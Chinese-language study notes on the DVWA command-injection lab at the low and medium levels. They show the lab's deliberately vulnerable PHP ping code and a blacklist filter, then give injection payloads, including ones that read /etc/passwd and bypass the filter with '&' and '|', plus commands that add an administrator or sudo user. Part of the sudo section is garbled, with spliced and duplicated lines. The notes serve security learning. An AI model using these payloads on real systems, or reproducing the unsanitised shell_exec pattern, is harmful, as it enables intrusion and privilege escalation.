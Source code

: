 <center>Command Injection命令注入</center>









## Command Injection命令注入

> 命令注入











### 1. low

> 低级
>
> 代码：[url](http://192.168.0.111:8000/vulnerabilities/view_source.php?id=exec&security=low)

```shell
<?php

if( isset( $_POST[ 'Submit' ]  ) ) {
    // Get input
    $target = $_REQUEST[ 'ip' ];

    // Determine OS and execute the ping command.
    if( stristr( php_uname( 's' ), 'Windows NT' ) ) {
        // Windows
        $cmd = shell_exec( 'ping  ' . $target );
    }
    else {
        // *nix
        $cmd = shell_exec( 'ping  -c 4 ' . $target );
    }

    // Feedback for the end user
    echo "<pre>{$cmd}</pre>";
}

?>
```

> 没有做任何过滤
>
> linux/windowns 的基本命令

````shell
# win
127.0.0.1 && ipconfig
# 创建用户提升管理员
net user UserName PassWord /add
net localgroup Administrators UserName /add


# linux 等
127.0.0.1 ; ip addr
127.0.0.1 ; cat /etc/passwd 

# 创建用户
sudo useradd -m username    # -m 创建家目录
# 设置密码
sudo passwd username
# 添加到 sudo 组
sudo usermod -aG sudo username    # Ubuntu/Debian
# 或
sudo usermod -aG wheel usernam# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALLe   # CentOS/RHEL/Arch Linux
# 安全编辑 sudoers 文件
sudo visudo

# 添加以下行
username ALL=(ALL:ALL) ALL
````

> 扩展：

1. windows 的与或非

* 单个 & (简单连接符)：

```cmd
# 无条件执行后续命令，不管前面的命令是否成功
command1 & command2    # 两个命令都会执行

# 示例
dir & echo "这句话总会显示"
```



* 与操作 (AND)：

```cmd
# 使用 && 
command1 && command2    # command1 成功才执行 command2

# 示例
dir && echo "目录列表完成"
```

* 或操作 (OR)：

```cmd
# 使用 ||
command1 || command2    # command1 失败才执行 command2

# 示例
dir nonexist.txt || echo "文件不存在"
```

* 非操作 (NOT)：

```cmd
# 使用 NOT
IF NOT EXIST file.txt echo "文件不存在"

# 使用 !
IF !ERRORLEVEL! EQU 0 echo "命令成功"
```

* if判断

```cmd
:: IF 语句中的与或非
IF EXIST file.txt (
    IF NOT EXIST backup.txt (
        echo "file.txt 存在但 backup.txt 不存在"
    )
)

:: 组合使用
dir file.txt && echo "存在" || echo "不存在"
```





### 2. medium

> 中级
>
> 代码直接点击 `view source`

```shell
# 做了过滤
    // Set blacklist
    $substitutions = array(
        '&&' => '',
        ';'  => '',
    );

    // Remove any of the charactars in the array (blacklist).
    $target = str_replace( array_keys( $substitutions ), $substitutions, $target );
```

> 不使用`&&`和`;`字符

```shell
# win
127.0.0.1 & ipconfig

# linux
127.0.0.1 | ip addr
```




